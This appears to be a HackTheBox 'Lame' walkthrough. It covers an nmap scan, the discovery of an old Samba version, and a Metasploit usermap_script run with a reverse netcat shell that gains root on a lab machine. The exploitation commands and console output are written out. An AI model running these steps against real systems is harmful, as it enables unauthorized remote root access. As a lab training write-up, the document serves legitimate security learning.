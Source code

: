 ```yaml
---
title: "HackTheBox Lame Walkthrough"
date: "2022-06-12"
categories: 
  - "htb-walkthroughs"
coverImage: "Untitled.png"
---
```


As usual, the first thing we run is an NMAP scan to see what ports are open on the target.

nmap -A -p- 10.10.10.3 -T4

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|\_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|\_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|\_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel

Host script results:
|\_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account\_used: guest
|   authentication\_level: user
|   challenge\_response: supported
|\_  message\_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|\_  System time: 2022-06-12T12:49:09-04:00
|\_clock-skew: mean: 2h00m08s, deviation: 2h49m45s, median: 5s

I noticed an older SMB version running (Samba 3.0.20-Debian). Maybe there is an exploit we can leverage.

A quick google search and we have an exploit! [https://www.rapid7.com/db/modules/exploit/multi/samba/usermap\_script/](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

[![](images/image.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image.png)

We just need to run and configure Metasploit for the usermap\_script exploit.

msfconsole
msf6 > use exploit/multi/samba/usermap\_script 
\[\*\] No payload configured, defaulting to cmd/unix/reverse\_netcat
msf6 exploit(multi/samba/usermap\_script) > show targets

Exploit targets:

   Id  Name
   -- ----
   0   Automatic

msf6 exploit(multi/samba/usermap\_script) > show options

Module options (exploit/multi/samba/usermap\_script):

   Name    Current Setting  Required  Description
   ---- --------------- -------- -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-fra
                                      mework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse\_netcat):

   Name   Current Setting  Required  Description
   ---- --------------- -------- -----------
   LHOST  0.0.0.0    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   -- ----
   0   Automatic

msf6 exploit(multi/samba/usermap\_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap\_script) > set lhost tun0
lhost => tun0
msf6 exploit(multi/samba/usermap\_script) > run

\[\*\] Started reverse TCP handler on 10.10.14.8:4444 
\[\*\] Command shell session 1 opened (10.10.14.8:4444 -> 10.10.10.3:39225) at 2022-06-12 12:59:48 -0400

whoami
root

And just like that, we're root!
